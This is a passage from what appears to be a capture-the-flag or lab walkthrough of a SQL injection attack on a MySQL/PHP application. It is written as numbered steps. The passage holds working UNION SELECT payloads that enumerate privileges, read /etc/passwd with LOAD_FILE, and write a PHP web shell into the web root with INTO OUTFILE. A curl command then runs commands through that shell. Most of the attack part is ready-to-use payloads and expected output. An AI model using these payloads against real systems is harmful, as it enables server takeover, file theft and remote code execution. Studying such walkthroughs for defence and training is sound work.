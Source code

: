 **Step 6: Enumerate User Privileges**
```sql
-- List all privileges for current user
' UNION SELECT 1, grantee, privilege_type, is_grantable, 5 FROM information_schema.user_privileges -- -

-- Key findings:
-- FILE privilege: YES ✅ Can read/write files
-- SELECT privilege: YES ✅ Can read data
-- INSERT privilege: YES ✅ Can write data
-- SUPER privilege: YES ✅ Admin operations
```

#### Phase 4: File Operations

**Step 7: Test File Reading**
```sql
-- Read system file to verify FILE privilege
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -

-- Result: Successfully displays /etc/passwd content ✅
-- Analysis: FILE privilege confirmed working
```

**Step 8: Verify Write Restrictions**
```sql
-- Check secure_file_priv setting
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -

-- Result: SECURE_FILE_PRIV = (empty)
-- Analysis: ✅ No restrictions = Can write anywhere
```

#### Phase 5: Web Shell Deployment

**Step 9: Deploy Web Shell**
```sql
-- Write PHP web shell to web directory
' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -

-- Key considerations:
-- Use /var/www/html/dashboard/ instead of /var/www/html/ (permission denied)
-- Empty strings for clean PHP output
-- cmd parameter for command execution
```

**Step 10: Verify Web Shell**
```bash
# Test web shell with simple command
curl "http://target/dashboard/shell.php?cmd=id"

# Expected output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
# Analysis: ✅ Remote Code Execution achieved!
```
